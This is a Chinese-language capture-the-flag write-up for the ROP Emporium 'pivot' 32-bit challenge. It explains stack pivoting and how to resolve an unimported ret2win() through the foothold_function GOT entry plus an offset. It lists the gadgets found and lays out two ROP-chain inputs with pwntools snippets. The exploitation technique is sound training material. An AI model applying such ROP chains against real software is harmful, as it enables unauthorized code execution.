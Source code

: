 Hint1:
> There's only enough space for a three-link chain on the stack but you've been given space to
stash a much larger ROP chain elsewhere. Learn how to pivot the stack onto a new location.

Hint2:
> The ret2win() function in the libpivot.so shared object isn't imported, but that doesn't mean
you can't call it using ROP! You'll need to find the .got.plt entry of foothold_function() and
add the offset of ret2win() to it to resolve its actual address. Notice that foothold_function()
isn't called during normal program flow, you'll have to call it first to populate the .got.plt entry.

<br>

## Stack Pivot
简单来说就是：改变 esp 的值，让它指向另一处的内存。

如果某处内存不够放完整的 ROP Chain，我们可以把完整的 ROP Chain 分成数段，分别摆在内存不同处，然后通过改变 esp 逐段执行。

<br>

## Calling Unimported Functions in Shared Library (.so)
这道题我们需要呼叫 ret2win() 来打印 flag，但 ret2win() 在程式中完全没被呼叫，那么我们怎么知道它是真实位址呢？

我们可以用 pwntools 计算出 ret2win() 和 foothold_function() 在 `libpivot32.so` 里的 offset：
```
from pwn import *

lib = ELF('libpivot32.so')
offset = lib.symbols['ret2win'] - lib.symbols['foothold_function']
```

然后我们先呼叫 `foothold_function@plt`，让其真实位址被填入 GOT 内。

接着取得 foothold_function() 在 GOT 中所对应 entry 的位址（注意：是 entry 的位址，不是 foothold_function 本身）
```
elf = ELF('pivot32')
foothold_function_got = elf.got['foothold_function']
```

也就是说，foothold_function_got 指向的内存空间中，存的就是 foothold_function() 的真实位址。

有了 foothold_function() 的真实位址，我们只要再加上刚刚算的 offset，就会得到 ret2win() 的真实位址了。
```
ret2win 真实位址 = [foothold_function_got] + offset
```

<br>

## Reverse
这题在 pwnme() 里面调用两次 fgets()：
1. 第一次，会写入 heap 某处（题目在一开始就先用 malloc() 获得了 heap 上 100 bytes 的空间，后面才呼叫 fgets()）
2. 第二次，会写入 stack（但最多只让使用者写0x3a bytes）

所以我们要做什么呢？
1. 第一次，题目要我们输入我们真正的 ROP Chain
2. 第二次，题目要我们进行 stack pivot

我們只要先 stack pivot，然後想辦法執行到 ret2win() 這個函數就可以了。

<br>

## ROP Gadgets
先看看题目给了哪些 gadgets：
```
pwndbg> disas usefulGadgets
Dump of assembler code for function usefulGadgets:
   0x080488c0 <+0>:     pop    eax                  <--- gadget1
   0x080488c1 <+1>:     ret
   0x080488c2 <+2>:     xchg   esp,eax              <--- gadget2
   0x080488c3 <+3>:     ret
   0x080488c4 <+4>:     mov    eax,DWORD PTR [eax]  <--- gadget4
   0x080488c6 <+6>:     ret
   0x080488c7 <+7>:     add    eax,ebx              <--- gadget3
   0x080488c9 <+9>:     ret
（省略若干行）
```

用 `ROPGadget --binary pivot32` 可以再找到兩个有用的 gadgets：
```
0x08048571 : pop ebx ; ret   <--- gadget5
0x080486a3 : call eax        <--- gadget6
```

<br>

## Pwn
有了以上六个 gadgets，我们可以设计 ROP Chain 了。

下面这段输入到第一次 fgets() 里：
```
ret: foothold_function@plt +
ret: gadget1 +
eax: foothold_function@got.plt +
ret: gadget4 +   ---> eax = foothold_function() 的真实位址
ret: gadget5 +
ebx: offset +    ---> 0x1f7
ret: gadget3 +   ---> add eax, ebx 之后，eax = ret2win() 的真实位址
ret: gadget6     ---> call eax
```

下面这段输入到第二次 fgets() 里：
```
padding: 11 * 'AAAA' +
ret: gadget1 +
eax: pivot_dest +
ret: gadget2
```
